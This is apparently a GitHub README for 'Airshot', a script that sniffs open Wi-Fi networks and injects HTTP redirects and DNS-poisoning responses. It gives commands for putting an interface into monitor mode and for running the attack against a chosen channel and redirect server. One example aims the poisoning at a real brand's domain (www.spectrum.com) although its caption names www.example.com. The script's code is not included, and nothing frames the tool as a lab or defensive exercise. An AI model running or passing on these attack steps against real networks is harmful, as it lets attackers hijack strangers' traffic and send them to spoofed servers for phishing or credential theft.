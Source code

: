 # Airshot

Just a basic script that will look for HTTP requests in open networks and inject HTTP redirects



### Directions
```bash
sudo airmon-ng start <interface>

#Redirecting HTTP Requests
python3 airshot.py -i <interface> -c <channel> -ip <redirected_server_ip> --http true

#DNS Poisioning
python3 airshot.py -i <interface> -c <channel> -ip <redirected_server_ip> --domain <domain_to_poision
```


### Examples
Redirecting HTTP GET Requests to 192.168.16.102
```bash
python3 airshot.py -i wlan0mon -c 9 -ip 192.168.16.102 --http true
```

DNS poisioning for www.example.com to resolve to 192.168.16.102
```bash
python3 airshot.py -i wlan0mon -c 9 -ip 192.168.16.102 --domain www.spectrum.com
```


